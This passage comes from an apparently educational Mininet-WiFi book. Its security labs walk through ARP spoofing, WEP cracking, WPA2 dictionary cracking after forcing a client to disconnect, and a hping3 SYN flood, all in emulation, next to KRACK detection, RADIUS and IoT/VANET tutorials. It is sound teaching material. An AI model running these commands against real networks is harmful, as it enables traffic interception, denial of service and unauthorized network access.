    _gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0
```

Now, let us simulate the ARP _Spoofing_ attack and make **sta1** mistake **sta2** for its gateway without perceiving that the ``gateway'' is, in fact, **sta2**. First, open two terminals for **sta2**.

```
    mininet-wifi> xterm sta2 sta2
```

Next, run _arpspoof_ on the **sta2** terminal, as follows. _If you do not have `arpspoof`, install it using the sudo apt install `dsniff` command.

```
    sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3
```

The command described above induces 10.0.0.1, which is the victim, to think that 10.0.0.2 is now its default gateway. After issuing the command, we need to wait for a few seconds, then check **sta1**'s ARP table again.

```
    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
    ? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0
```

Here, we can notice that the MAC address of the default gateway is no longer the same as the one previously obtained.


Now, we will do a new _ping_ from **sta1** to 8.8.8.8 while using _tcpdump_ on the **sta2** terminal to confirm that **sta2** is receiving traffic data sent by the victim.

```
    sta2# tcpdump -i sta2-wlan0
    20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 8, length 64
    20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
    20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
    20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 9, length 64
    20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
    20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
    20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64
```

```
    mininet-wifi> sta1 ping -c10 8.8.8.8
```

After **sta1** sends a few packets, you will be able to notice that **sta2** received them, since **sta1** was duped into perceiving **sta2** as the correct default gateway.


Now **sta2**, the attacker, can use even simple tools like _sslstrip_ to perform attacks via the HTTPS (_Hyper Text Transfer Protocol Secure_) protocol. 


It is also worth mentioning that this type of attack can be avoided by using tools such as _ArpON_ (ARP handler inspection).


#### Cracking WEP keys
Requirements: _airodump-ng_, _aircrack-ng_

First of all you need to identify the network topology that will be generated by <_extras/wep.py_>.

So, let us run <_wep.py_>:
```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/extras/wep.py
```

and then you have to create a monitor interface called **mon0** for **sta1**.

```
mininet-wifi> sta1 iw dev sta1-wlan0 interface add mon0 type monitor
mininet-wifi> sta1 ifconfig mon0 up
```

Now you open a xterm for **sta1**:

```
mininet-wifi> xterm sta1
```

Then we will start using the `dump` command to grab packets from other wireless devices, and the software will be able to make calculations and comparisons among the data to break the insecure WEP protocol. Enter the following command from `sta1`'s terminal:

```
airodump-ng mon0
```

Now it is time to tell our wireless interface to start storing captured wireless data based on the network of your choosing. Remember to plug in three key pieces of information from the previous output into the following command:

```
airodump-ng -w simplewifi -c 1 --bssid 02:00:00:00:03:00 mon0 
```

Last but not least, you are going to need to do the most important step of the process by actually using the captured data from the WEP device. Issue the following command:

```
aircrack-ng simplewifi-01.cap
```

If all goes according to plan, you should be able to break the WEP system. However, if the command fails, you will want to wait until the wireless card captures more data. Give it time to capture 15,000 packets and then try again.


#### Discovering WPA/WPA2 keys
Requirements: _airodump-ng_, _aircrack-ng_

It is no surprise that WPA/WPA2 is a very secure protocol that is widely recommended and used in WiFi networks, especially when compared to WEP. However, it is possible for WPA/WPA2 keys to be discovered by means of brute-force attacks.


In this tutorial, we will learn how password discovery can be done. To do so, we will use a password dictionary as a basis to discover the password of a certain access point. We will also use two well-known tools to those who are familiar with wireless networks: _airodump-ng_ and _aircrack-ng_. 

_Arodump-ng_ is used for capturing frames from 802.11 raw frames and is particularly suitable for collecting WEP, WPA and WPA2 IVs (Initialization Vectors) in order to use them with _aircrack-ng_. _Aircrack-ng_, in turn, is a network and packet sniffer that is widely used for WEP, WPA and WPA2 key wrapping.


To continue this tutorial, let us run <_authentication.py_>.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/authentication.py
```

And then, let us open a terminal for **sta2**.

```
    mininet-wifi> xterm sta2
```

In the **sta2** terminal, we will create a _monitor_ interface, activate it and run _airodump-ng_, as follows.

```
    sta2# iw dev sta2-wlan0 interface add mon0 type monitor
    sta2# ip link set mon0 up
    sta2# airodump-ng mon0
```

After a few seconds, you should be able to notice an output similar to the one shown below.

```
 BSSID              PWR  Beacons   #Data, #/s  CH  MB ENC  CIPHER AUTH ESSID
                                                                                                                                      
 02:00:00:00:02:00  -35       20       0    0   1  54 WPA2 CCMP   PSK  ap1-ssid                                                    
                                                                                                                                      
 BSSID              STATION           PWR   Rate   Lost   Frames  Probe                                                            
                                                                                                                                      
 02:00:00:00:02:00  02:00:00:00:00:00 -35    0 - 1     0       1  ap1-ssid
``` 

This output should show all the access points that the client can ``see''. Based on this output, you need to save the _Basic Service Set Identifier_ (BSSID) or MAC address of the access point - which in this case is **ap1** - and add it to the following command.

```
    sta2# airodump-ng --bssid 02:00:00:00:02:00 mon0 -w sniffer
```

This command, in addition to filtering captures using only the BSSID and chosen interfaces as selection criteria, saves all captures in a file called `sniffer-01.cap`, which can later be used for analysis.

Now, we will disconnect **sta1** from access point **ap1**, since **sta2** needs to capture authentication-related traffic information, which will include references to **ap1**'s password. Although we will use the `disconnect` command, it is expected that **sta1** will rejoin **ap1**, since there is a background process running **wpa\_supplicant** that is responsible for negotiation/association between clients and access points.

```
    mininet-wifi> sta1 iw dev sta1-wlan0 disconnect
```

Finally, let us create a file (e.g. `password.psk`) that contains a list of passwords, including the password of the **ap1** access point. The correct password can be found in the script used in this tutorial. In a real situation, the password file should be replaced by a file that can be easily obtained on the Internet. Search for WPA/WPA2 Word List Dictionaries and you will certainly find a couple of references to the password dictionary.


Then we run _aircrack_, so that it can compare the contents of the password file named `password.psk` and the traffic data that **sta2** captured when **sta1** joined the **ap1** access point.

```
    sta2# aircrack-ng -w password.psk -b 02:00:00:00:02:00 sniffer-01.cap
```

And... _voilà_! _Aircrack_ was able to discover the password of the **ap1** access point, as can be seen below.

```
      [00:00:00] 1/0 keys tested (234.69 k/s) 

      Time left: 0 seconds                                   inf%

                          KEY FOUND! [ 123456789a ]


      Master Key     : AE 48 BB 45 8C C1 27 E0 B2 E0 06 8B 78 C6 3A 85 
                       C1 F6 13 44 09 FC 89 9F 94 C5 AB 1F B2 C6 D9 E5 

      Transient Key  : 8F 77 37 71 F4 DE 6A F3 4A F2 B1 FC 81 85 C4 75 
                       57 2A A4 87 DA FA 0E 8B 56 8A 19 D1 F6 84 6C 3F 
                       08 F6 92 53 41 B1 CE 0D FB 81 50 CD 16 8D 20 B4 
                       6D 2A AB 62 28 F7 2C 66 A5 47 89 DC 8E 1C 52 E2 

      EAPOL HMAC     : 53 2E 25 04 69 28 66 64 D1 8A AC 7C 82 6C FA 0
```

#### The 4-Way handshake
The key discovery described in the previous section was only possible because _airodump-ng_ captured the WPA2 handshake. It is imperative to capture traffic data that include handshake messages, otherwise the password discovery process will not work.

 Handshake is the process by which a client and a server decide how to proceed with a connection, in which one recognizes the other and institutes that they are ready to initiate communication. To ensure the security of this conversation, a key must be installed and used only once.


Figure below depicts the four-way handshake of the WPA2 protocol that was captured in the previous tutorial, showing the same content as `sniffer-01.cap`. It is called four-way handshake because it involves the exchange of four messages between the access point and the client.




#### The "KRACK attack"

Requirements: _Ryu_

So far, we have used Ryu without making any changes to its source code. What if, then, we develop a program for Ryu and make it provide some kind of functionality for wireless networks? The tutorial we are going to do now concerns a case that was well-known among the wireless network community in 2017, when a researcher discovered a number of flaws in the WPA2 protocol.


The program we are going to create is based on the code developed by the author of the [KRACK attack](https://www.krackattacks.com/). This code was adapted to run on Mininet-WiFi and also Ryu. 


As we have already cloned the Ryu source code previously, let us work with the script introduced in this tutorial, `krack-attack.py`. Please run it as follows.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/krack-attack.py
```

Then, check **sta1**'s association status.

```
    mininet-wifi> sta1 iw dev sta1-wlan0 link
    Connected to 02:00:00:00:00:01 (on sta1-wlan0)
    	SSID: handover
    	freq: 2412
    	RX: 11172 bytes (179 packets)
    	TX: 1407 bytes (12 packets)
    	signal: -68 dBm
    	tx bitrate: 5.5 MBit/s

    	bss flags:	short-slot-time
    	dtim period:	2
    	beacon int:	100
```

As you can see, **sta1** is associated with access point **ap1**, which has an SSID called _handover_.


Now let us go to the _Ryu_ directory and load it along with the `krack\_code.py` and `krack\_app.py` modules, as follows:

```
    ~/mininet-wifi/ryu$ sudo PYTHONPATH=. ./bin/ryu-manager ryu/app/krack_code.py ryu/app/krack_app.py
```

Then change the position of **sta1** so that it can associate with the **ap2** access point. Then try to _ping_ **ap2**, whose IP address is 10.0.0.102.

```
    mininet-wifi> py sta1.setPosition('150,100,0')
    mininet-wifi> sta1 ping 10.0.0.102
    PING 10.0.0.102 (10.0.0.102) 56(84) bytes of data.
    64 bytes from 10.0.0.102: icmp_seq=1 ttl=64 time=12.2 ms
^C
    --- 10.0.0.102 ping statistics ---
    7 packets transmitted, 1 received, 85% packet loss, time 6074ms
    rtt min/avg/max/mdev = 12.285/12.285/12.285/0.000 ms
```

Then, check **sta1**'s association status one more time.

```
    mininet-wifi> sta1 iw dev sta1-wlan0 link
    Not connected.
```

As we can see, **sta1** is no longer associated with the **ap2** access point.

 What happened to **sta1**'s association status? The program that we will load using _Ryu_ has instructions enabling the controller to identify whether the access point - in this case, **ap2** - has one of the four vulnerabilities exposed by the _KRACK attack_. Should it identify one of them, the controller will not allow **sta1** to associate itself with the access point that is vulnerable, preventing **sta1** from suffering attacks that exploit its identified vulnerability.


Now, let us return to the terminal on which _Ryu_ is running.

```
    [23:45:12] Detected FT reassociation frame
    [23:45:13] Replaying Reassociation Request
    [23:45:15] Replaying Reassociation Request
    [23:45:16] Replaying Reassociation Request
    [23:45:17] Replaying Reassociation Request
    [23:45:18] Replaying Reassociation Request
    [23:45:18] AP transmitted data using IV=1 (seq=15)
    [23:45:18] AP transmitted data using IV=2 (seq=17)
    [23:45:18] IV reuse detected (IV=-1, seq=17). AP is vulnerable!
    Shutting Down AP2...
```

As you can see, a vulnerability has been detected on access point **ap2**. Moreover, the controller has disabled it, undoing the association between **sta1** and **ap2** as a result.


Ryu's actions are not limited to just deactivating the access point **ap2**, of course. Other functions could be implemented, such as to notify stations without subsequent shutdowns or even to instruct access point **ap2** to enforce security updates once vulnerabilities have been identified.

 

[On the Krack Attack: Reproducing Vulnerability and a Software-Defined Mitigation Approach](https://youtu.be/XbUxH5zQPTc)


#### Intrusion Detection System (IDS)
Requirements: _Snort_, _hping3_

Intrusion Detection Systems (IDS) are systems that monitor traffic moving on networks and other systems to detect suspicious activities and known threats, sending alerts to the user when it finds such items. This way, it is possible to identify invasion attempts, allowing the control of authorizations and enabling the continuous improvement of network security.


In this tutorial, we will use _Snort_, a network intrusion detection program capable of doing real-time traffic analysis and packet registration on IP networks. We will also use _hping3_, which is a free generator and parser of TCP/IP, a protocol used in security testing.


They can be installed via the apt command, as follows.

```
    ~/mininet-wifi$ sudo apt install snort hping3
```

Since this tutorial does not require the execution of a particular script, we will use the simplest Mininet topology, which consists of two hosts connected to a switch.

```
    ~/mininet-wifi$ sudo mn
```

Then we will open a terminal for **h1**, which will act as the IDS server.

```
    mininet-wifi> xterm h1
```

On the **h1** terminal, we will issue the following command, which will start _snort_.

```
    h1# snort -d -l /var/log/snort/ -h 10.0.0.0/24 -A console -c /etc/snort/snort.conf
```

Then on **h2**, we will use _hping3_ to generate data traffic to **h1** in an attempt to simulate a denial of service (DoS) attack. While it is entirely possible to open a separate terminal for **h2** and run the command below, execute it directly from the Mininet-WiFi CLI.

```
    mininet-wifi> h2 hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source 10.0.0.1
    HPING 10.0.0.1 (h2-eth0 10.0.0.1): S set, 40 headers + 120 data bytes
    hping in flood mode, no replies will be shown
```

Now, again on **h1**, you can see packets being detected by _snort_ as they are received by **h1**. An image similar to the one shown in the figure below should be observed.



It is by using methods or programs similar to _snort_ that professional _Pentesters_ or security auditors identify vulnerabilities in the architecture of a company in order to exploit them. This identification and exploitation process can result in the delivery of reports that facilitate the correction of existing security breaches, as well as possible ones.


#### Centralized authentication
Requirements: _FreeRADIUS_

Centralized authentication is an efficient and secure way to unify multiple authentication systems (e.g. address books, user data, Intranet, educational systems) on a single server. In this tutorial we will make stations associate in a centralized way, in which a server will be configured to respond to authentication requests.


To accomplish this, we will use the _RADIUS_ authentication protocol. _RADIUS_ (Remote Authentication Dial In User Service) is an authentication, authorization and accounting (AAA) protocol. It uses the UDP transport protocol (ports 1812 and 1813) for its communication process.


RADIUS' authentication function verifies user identity; its authorization function ensures that an authenticated user has access only to the authorized resources and, finally, the accounting function collects information about the resource utilization of a system caused by its users.


There are many different _RADIUS_ servers, but in this tutorial we will use [FreeRADIUS](https://freeradius.org/), one of the most popular _RADIUS_ servers worldwide.


To get started, you will need to configure the _clients.conf_ and _users_ files, which should be located in the _FreeRADIUS_ installation directory. In version 3.0.15, these files can be found at <_/usr/local/etc/raddb/_>.


_clients.conf_ and _users_ should respectively have the following contents:


clients.conf
```
        client 127.0.0.1 {
                secret=secret
                shortname=sdn_ap
        }
```

users
```
        bob     Cleartext-Password := "hello"
        joe     Cleartext-Password := "sdnteam"
```


Once _FreeRADIUS_ is configured, let us start it in a terminal by issuing the following command.

```
    ~/mininet-wifi$ sudo radiusd -X
```

 The _FreeRADIUS_ initialization and installation directory may vary depending on the installed version.

Now, while _FreeRADIUS_ is running, you need to start <_radius.py_> on a new terminal. 

 Note that in the <_radius.py_> script there is a configuration for stations that indicates the usernames and passwords to be used - i.e. users _bob_ and _joe_ and their respective passwords, exactly as defined in the _users_ file.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/radius.py
```

Now you can notice some activity on the terminal from which _FreeRADIUS_ was started. This activity concerns the communication between the _FreeRADIUS_ server and the **ap1** access point. If Wireshark is running, you can also see messages related to the _RADIUS_ protocol exchanged among client, access point and _RADIUS_ server, as shown in the figure below.





Then, we can attempt to establish communication between **sta1** and **sta2**.

```
    mininet-wifi> sta1 ping -c1 sta2
    PING 10.0.0.2 (10.0.0.2) 56(84) bytes of data.
    64 bytes from 10.0.0.2: icmp_seq=1 ttl=64 time=1.13 ms

    --- 10.0.0.2 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 1.134/1.134/1.134/0.000 ms
```

If the username and password did not match, it means that authentication could not be done successfully and **sta1** and **sta2** were unable to communicate with each other.


As an alternative to this tutorial, you could also start _FreeRADIUS_ from any node, thus representing in a more reliable way what happens in the real world, where there would be a physical machine reserved for the _RADIUS_ server.


Thus, since it is a relevant topic to this section of the book, in the following tutorial we will learn to start _FreeRADIUS_ from a node, in addition to applying the SDN concept.


 

[Mininet-WiFi working with FreeRADIUS](https://youtu.be/lpI9Mt5ggIs)


#### RADIUS and SDN
Requirements: _Ryu_, _FreeRADIUS_

Applying the SDN concept to _RADIUS_ can be very useful for many types of research. Different policies can be created and applied based on the username and not just on IP and MAC addresses, as usually happens. It would be possible, for instance, to restrict communication among clients that authenticate with the same username, apply QoS rules, among other possibilities.


Although we will not do any complicated tasks in this new tutorial, by completing it we can understand how the SDN controller can be used to perform traffic control based on usernames. To do so, we will again use Ryu, which will allow us to process packets and parse usernames. In _Ryu_'s source code, there is a module for the RADIUS protocol that was built based on its [RFC 2865](https://tools.ietf.org/html/rfc2865).

 Access the RADIUS RFC to understand how RADIUS support has been added to Ryu. For example, check, in section 3 (titled _Packet Format_), the available fields and their respective codes. Then compare the values defined in the packet format with the values in the <_radius.py_> file from the Ryu source code, at _ryu/lib/packet/_.

To start Ryu, let us use the following command.

```
    ~/mininet-wifi/ryu$ sudo PYTHONPATH=. ./bin/ryu-manager ryu/app/simple_switch_13.py
```

We will then run the tutorial script. It includes a node called **h1** that will be the RADIUS server. The server is connected to switch **s1**, which in turn is connected to access point **ap1**.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/radiusCode-openflow.py
```

Stations **sta1** and **sta2** will attempt to authenticate to access point **ap1** with the usernames _joe_ and _bob_, respectively, as demonstrated in the figure below.





When **sta1** and **sta2** try to authenticate to access point **ap1**, **ap1** sends the authentication information to the RADIUS server via UDP port 1812. The RADIUS server is then expected to respond to the request by denying or accepting the authentication.


What happens is that the whole packet that has **ap1** as the source and **h1** as the destination must pass through the **s1** switch. Thus, when **s1** receives the request sent by **ap1**, in addition to forwarding the packet to **h1**, **s1** also sends a copy of each UDP packet with destination port 1812 to the SDN controller (_see the script for more information_).


The modified version of _Ryu_ is capable of sending packets on UDP port 1812 to a module or program, which can interpret the information and make a decision based on the received information. As a simpler example, the code will process usernames and MAC addresses of the node you wish to authenticate to **ap1** and then print this information on the screen. _The output shown below was filtered in order to display only the information of interest to the tutorial_.


```
    loading app ryu/app/simple_switch_13.py
    loading app ryu.controller.ofp_handler
    instantiating app ryu/app/simple_switch_13.py of SimpleSwitch13
    instantiating app ryu.controller.ofp_handler of OFPHandler

    Username: joe
    Host: 02-00-00-00-00-00
    Username: bob
    Host: 02-00-00-00-01-00
```

As we can see, we were able to capture the usernames and MAC addresses of **sta1** and **sta2**. However, we are not limited to this information, since all information in UDP packets can be parsed, including passwords. In order to parse more data, you will need to study RFC 2865 and edit <_radius.py_> according to the instructions contained in its RFC.


**Research that used Mininet-WiFi for experimentation on security**:

- Brian Van Leeuwen, John Eldridge, and Vincent Urias. _Cyber Analysis Emulation Platform for Wireless Communication Network Protocols_.  International Carnahan Conference on Security Technology (ICCST), 2017.
- Jacob H. Cox, Russell Clark, Henry Owen. 	_Leveraging SDN and WebRTC for Rogue Access Point Security_. IEEE Transactions on Network and Service Management, 2017.
- Mert Ozcelik, Niaz Chalabianloo, and Gurkan Gur. _Software-Defined Edge Defense Against IoT-Based DDoS_.  IEEE International Conference on Computer and Information Technology (CIT), 2017.
- Maxim Kalinin, Vasiliy Krundyshev, Peter Zegzhda  and Viacheslav Belenko. _Network security architectures for VANET_.  Proceedings of the 10th International Conference on Security of Information and Networks (SIN), 2017.
- Abdul Jabbar Siddiqui and Azzedine Boukerche. 	_On the Impact of DDoS Attacks on Software-Defined Internet-of-Vehicles Control Plane_. International Wireless Communications \& Mobile Computing Conference (IWCMC), 2018.
- Zhiheng Liu, Zhen Zhang, Yinzhi Cao, Zhaohan Xi, Shihao Jing, and Humberto La Roche	Towards a _Secure Zero-rating Framework with Three Parties_. 27th USENIX Security Symposium, 2018
- Tahira Mahboob, Iqra Arshad, Aqsa Batool, Maryam Nawaz.	_Authentication Mechanism to Secure Communication between Wireless SDN Planes_. 16th International Bhurban Conference on Applied Sciences and Technology (IBCAST), 2019.


 

[Mininet-WiFi: RADIUS and SDN working together](https://youtu.be/2FjAS8g5Bsk)


### 6LoWPAN / IoT

Requirements: _Wireshark_

6LoWPAN (IPv6 over Low power Wireless Personal Area Networks) is an IP protocol that creates and maintains the specifications that allow us to use the IPv6 protocol on the IEEE 802.15.4 standard, which specifies the physical layer and performs access control for personal wireless networks with low transmission rates.


It has been widely used in the implementation of sensor networks with energy limitations, low signal range, low transmission rates and low cost. The integration of sensor networks with the Internet is seen as essential for the Internet of Things (IoT), allowing the use of distributed sensor applications.


6LoWPAN support on Mininet-WiFi is possible because of the [fakelb](https://github.com/torvalds/linux/blob/master/drivers/net/ieee802154/fakelb.c) module, which is included in recent Linux kernel versions. Although there is still no adequate adaptation of the wireless medium for 6LoWPAN on Mininet-WiFi, its use is already possible and simple tests can be done.


To try out 6LoWPAN, we will use _MiniEdit_ to generate the script for this tutorial. To do so, open the _MiniEdit_, add three stations, configure a _wpan_ interface for each station and then create a link among them, setting them as a 6LoWPAN link.


Once the topology is ready, export it as a script by naming the file as <_lowpan.py_>. Finally, with the script ready, _MiniEdit_ is no longer needed and you can already run the newly created script.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/lowpan.py
```

Then, if everything occurred as expected while running the script, let us open _Wireshark_ from **sta1**. Now, we can start capturing the **sta1-wpan0** interface and test the _ping_ between the nodes that integrate the topology, as follows.

```
    mininet-wifi> sta1 ping -c1 2001::2
    PING 2001::2(2001::2) 56 data bytes
    64 bytes from 2001::2: icmp_seq=1 ttl=64 time=0.044 ms

    --- 2001::2 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
    
    mininet-wifi> sta1 ping -c1 2001::3
    PING 2001::3(2001::3) 56 data bytes
    64 bytes from 2001::3: icmp_seq=1 ttl=64 time=0.065 ms

    --- 2001::3 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.065/0.065/0.065/0.000 ms
```


 Note that we use the IPv6 address of the destination node as the IP, since 6LoWPAN uses the IPv6 protocol for addressing purposes.





Finally, on _Wireshark_, we can note the presence of a few 6LoWPAN protocol-related packets, as shown in in the figure above. Two messages appear on Wireshark: (a) _Neighbor Solicitation_ and (b) _Neighbor Advertisement_. More information about these messages, as well as other explanations about the 6LoWPAN protocol, can be found in [RFC 6775](https://tools.ietf.org/html/rfc6775).

**The _fakelb_ module is being replaced by mac802154\_hwsim on recent Linux kernel versions**.

#### Internet of Things
Requirements: _mosquitto_, _mosquitto-clients_

The Message Queuing Telemetry Transport (MQTT) protocol is one of the main protocols aimed at using IoT functionalities. Extremely simple and lightweight, it is designed for low bandwidth consumption and hardware requirements, and its main use is to make the machines in a system talk in a process known as Machine-to-Machine (M2M). MQTT uses the publish/subscribe (pub/sub) paradigm to exchange messages. This paradigm implements a middleware called broker, which is responsible for receiving, queuing and firing messages received by publishers. The publisher is responsible for connecting to the broker and posting messages, and the subscriber, in turn, is responsible for connecting to the broker and receiving messages of interest.


Mosquitto, the prerequisite of this tutorial, will act as an intermediary between machines and protocols. Used with the MQTT protocol, Mosquitto makes the devices in a network talk to each other in an automated way. To complete this tutorial, consider having both _mosquitto_ and _mosquitto-clients_ on your computer. Information about Mosquitto's installation can be found at https://mosquitto.org/.


Now, let us start to the practice test. If <_lowpan.py_> is still running, keep it that way. Otherwise, start it again.

```
    mininet-wifi> xterm sta1 sta2 sta3
```

From the **sta1** terminal, run _mosquitto.

```
    sta1# mosquitto
```

Now let us make it so that **sta2** is the subscriber of the topic called _test_.

```
    sta2# mosquitto_sub -h 2001::1 -t "test"
```

Then, from **sta3**, we will send a message to this topic so that all nodes subscribing to it receive the message. As only **sta2** is a subscriber of the test topic, only it will receive the information sent by **sta3**.

```
    sta3# mosquitto_pub -h 2001::1 -t "test" -m "message"
```

Now, note the message that has just been sent from the **sta2** terminal.

```
    sta2# mosquitto_sub -h 2001::1 -t "test"
    message
```

As previously stated, all subscribers of a given topic are be able to receive messages from nodes that publish information. Subscribers can also be publishers. This means that if **sta2** also sends a message, **sta3** would receive it.


Obviously, this was just a simple messaging test, but the MQTT protocol can be applied to projects in a variety of areas, such as industry, healthcare, transportation, and city and home planning.


**Research that used Mininet-WiFi for experimentation on IoT**:

- Deng, Guo-Cin; Wang, Kuochen._An Application-aware QoS Routing Algorithm for SDN-based IoT Networking_. In: 2018 IEEE Symposium on Computers and Communications (ISCC). IEEE, 2018.
- Darabseh, Ala; Freris, Nikolaos. _A software-defined architecture for control of IoT cyberphysical systems_. Cluster Computing, 2019.
- Silvestre Apolonia, Nuno Miguel, et al. _Gossip-based service monitoring platform for wireless edge cloud computing_. Proceedings of the 2017 IEEE 14th International Conference on Networking, Sensing and Control (ICNSC 2017): May. 2017.
- Park, Seongjin, and Younghwan Yoo. _Network intelligence based on network state information for connected vehicles utilizing fog computing_. Mobile Information Systems, 2017.
- Coutinho, Antonio, et al. _Fogbed: A rapid-prototyping emulation environment for fog computing_. 2018 IEEE International Conference on Communications (ICC). IEEE, 2018.
- Atwal, Kuldip Singh, and Mostafa Bassiouni. _SoftAccess: Cloud-Based Software Defined Virtualized Wireless Mobile Access Networks_. 2017 5th IEEE International Conference on Mobile Cloud Computing, Services, and Engineering (MobileCloud). IEEE, 2017.


 

[Mininet-WiFi: first release towards 6LoWPAN](https://youtu.be/61YiKoOMyXM)
[Mininet-WiFi working with Mosquitto (MQTT)](https://youtu.be/LKTMiUyB6Lk)


### Vehicular ad hoc networks
Requirements: _Sumo_, sumo-gui

Vehicular ad hoc networks (VANETs) are a special class of mobile ad hoc networks (MANETs) consisted of vehicles equipped with wireless gadgets. VANETs have unique features that distinguish them from other mobile networks, such as the fast speed at which their nodes move and their highly modifiable topology, which make the links created between networked vehicles happen for only a few seconds and almost immediately.


How can the concept of software-defined wireless networks, or even software-defined vehicle networks, fit in the field of vehicular networks? Software-defined wireless networks can optimize network systems and are a suitable solution to deal with dynamic network environments, such as vehicular networks themselves. Furthermore, they increase the maximum number of connected devices and also provide software heterogeneity, among many other features.


And how can Mininet-WiFi be used as a support for research on vehicular networks? Mininet-WiFi is compatible with SUMO (Simulation of Urban MObility), one of the most used simulators in the world with regard to vehicular networks. In addition to its already well-known support of software-defined wireless networks, Mininet-WiFi has been used in several studies on vehicular networks. Let us see, then, how Mininet-WiFi can be used together with SUMO.


First, it is important that we have a map of the location that will be simulated. Mininet-WiFi comes with a pre-configured map that was extracted from [OpenStreetMap](https://www.openstreetmap.org), a tool that is able to incorporate multi-way maps from around the world, resembling Google Maps in this aspect.


")

It will be quite simple to get our first vehicular network up and running on Mininet-WiFi, since there is already a pre-configured script for such. Still, you will need to install SUMO on your system first, in addition to _sumo-gui_, a package that allows you to visualize the movement of SUMO's simulated vehicles.


The SUMO version used in the writing of this tutorial was 1.1.0, but there should be no complications if you decide to use a more recent version. In case you notice any problems, feel free to contact the authors of this book.


Now, assuming SUMO is already installed, let us run <_vanet-sumo.py_>.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/vanet-sumo.py
```

Now, SUMO should be running and you have an opportunity to learn more about _sumo-gui_, SUMO's graphical interface. Using _sumo-gui_ you can start the simulation, pause, filter objects like cars, among other actions. As the simulated vehicles move, you can also use the Mininet-WiFi CLI to interact with them. The main integration between SUMO and Mininet-WiFi involves capturing vehicle positions. This means that if the Mininet-WiFi has the position data of the vehicles, the whole wireless part and network configuration in general is carried out by Mininet-WiFi.


Using the SUMO graphical interface, try to pause the simulation when the time reaches 20 seconds. Also try to visualize the vehicles numbered three and five. You will surely notice that they are located relatively close to each other. Therefore, it should be possible to test V2V or vehicle-to-vehicle communication, which is done among the vehicles without the need for eNodeB (_Evolved Node B_), the base station component of networks that use LTE (_Long-Term Evolution_), a mobile phone network standard. For Mininet-WiFi, eNodeB is nothing more than an access point.


So let us try to _ping_ between the number three and five vehicles by issuing the command below. In SUMO, the number three vehicle is identified by **car4** in Mininet-WiFi, since in SUMO's current configuration the node count starts at zero. The same goes for the vehicle number five.


```
    mininet-wifi> car4 ping -c1 192.168.1.6
    PING 192.168.1.6 (192.168.1.6) 56(84) bytes of data.
    64 bytes from 192.168.1.6: icmp_seq=1 ttl=64 time=1.11 ms

    --- 192.168.1.6 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 1.116/1.116/1.116/0.000 ms
```

By default, all vehicles have two wireless interfaces: one working for V2I, which is an interface capable of associating with a base station; and another operating for V2V, working in mesh mode, which allows association to happen among vehicles. Both interfaces have the suffixes **wlan** and **mp**. They can be seen in the example below.


```
    mininet-wifi> car4 ip addr show
    1: lo: <LOOPBACK> mtu 65536 qdisc noop state DOWN group default qlen 1000
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    2: car4-mp1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
        link/ether 02:00:00:00:07:00 brd ff:ff:ff:ff:ff:ff
        inet 192.168.1.4/24 scope global car4-mp1
           valid_lft forever preferred_lft forever
    88: car4-wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
        link/ether 02:00:00:00:06:00 brd ff:ff:ff:ff:ff:ff
        inet 192.168.0.4/24 scope global car4-wlan0
           valid_lft forever preferred_lft forever
        inet6 fe80::ff:fe00:600/64 scope link 
           valid_lft forever preferred_lft forever
    89: car4-wlan1: <BROADCAST,MULTICAST> mtu 1500 qdisc mq state DOWN group default qlen 1000
        link/ether 02:00:00:00:07:00 brd ff:ff:ff:ff:ff:ff
```

 Although there is an interface named **car3-wlan1**, it is disabled. **car3-wlan1** is used for creating the V2V interface, which works in mesh mode.

Finally, it can be seen, based on the commands shown below, that both interfaces (**car3-wlan0** and **car3-mp1**) are associated with an access point and a mesh network, respectively.

```
    mininet-wifi> car4 iw dev car4-wlan0 link
    Connected to 00:00:00:11:00:04 (on car4-wlan0)
    	SSID: vanet-ssid
    	freq: 2412
    	RX: 172521 bytes (3008 packets)
    	TX: 7416 bytes (238 packets)
    	signal: -63 dBm
    	tx bitrate: 54.0 MBit/s

    	bss flags:	short-slot-time
    	dtim period:	2
    	beacon int:	100
    	
    mininet-wifi> car4 iw dev car4-wlan0 info
    Interface car4-wlan0
    	ifindex 88
    	wdev 0x3b00000001
    	addr 02:00:00:00:06:00
    	ssid vanet-ssid
    	type managed
    	wiphy 59
    	channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
    	txpower 14.00 dBm
```

